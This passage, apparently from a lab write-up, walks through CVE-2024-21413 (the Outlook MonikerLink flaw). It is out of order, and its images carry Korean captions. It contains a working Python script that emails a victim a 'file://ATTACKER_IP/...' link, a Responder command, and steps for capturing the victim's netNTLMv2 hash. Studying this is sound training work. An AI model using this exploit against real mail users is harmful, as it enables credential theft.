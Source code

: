    ```python
   msg["To"] = receiver_email
   msg.attach(MIMEText(html_content, 'html'))

   server = smtplib.SMTP('MACHINE_IP', 25)
   server.login(sender_email, password)
   server.sendmail(sender_email, [receiver_email], msg.as_string())
   server.quit()
   ```

3. **Configure Script Parameters**
   - Replace `ATTACKER_IP` with your AttackBox IP.
   - Replace `MACHINE_IP` with the IP of the vulnerable mail server.

   ![Attacker IP Terminal](https://github.com/user-attachments/assets/2108f1b3-c023-49f6-b234-7789f050f170)
   *공격자가 자신의 IP를 확인하는 과정*

4. **Run the script** to deliver the malicious email:
   ```bash
   python3 exploit.py
   ```

5. **On Victim Machine**
   - Open Outlook.

   ![Outlook Sign-In](https://github.com/user-attachments/assets/50b888c3-151c-4cca-a27f-d6575030077f)
   *Outlook 실행 직후의 로그인 화면*

   ![Product Key Prompt](https://github.com/user-attachments/assets/db99b2d6-62b0-4a10-9ba5-9b801c040d7e)
   *제품 키 입력 창은 무시하고 닫을 수 있습니다*

   ![Outlook Ready](https://github.com/user-attachments/assets/46bb936b-43bc-4148-925a-caf2f3c03f52)
   *기본 메일함 설정이 완료된 상태*

   - Find and click the "Click me" hyperlink in the received email.

   ![Victim Email](https://github.com/user-attachments/assets/3f022976-e540-40c6-9608-36e11ccfaccd)
   *공격자가 보낸 악성 이메일을 확인한 피해자의 Outlook*

6. **Observe Responder Output**
   - If successful, the **netNTLMv2 hash** will appear in your terminal.

   ![Responder Hash Captured](https://github.com/user-attachments/assets/74b3821b-4037-40d6-973c-c9c656c954eb)
   *Responder에서 해시가 수집된 모습*

### ⚙️ Step-by-Step Exploit

1. **Start Responder** on the AttackBox:
   ```bash
   sudo responder -I ens5
   ```

2. **Create PoC Script** to Send Email

```python
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
import smtplib

sender_email = "attacker@monikerlink.thm"
receiver_email = "victim@monikerlink.thm"
password = "attacker"

html_content = '''<a href="file://ATTACKER_IP/test!exploit">Click me</a>'''

msg = MIMEMultipart()
msg["Subject"] = "CVE-2024-21413"
```